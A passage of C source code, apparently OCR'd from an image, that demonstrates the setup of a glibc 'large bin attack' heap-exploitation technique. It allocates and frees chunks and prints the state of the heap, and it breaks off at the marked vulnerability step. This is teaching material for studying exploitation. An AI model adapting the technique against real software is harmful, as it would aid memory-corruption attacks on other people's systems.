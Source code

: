 ```plain
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

```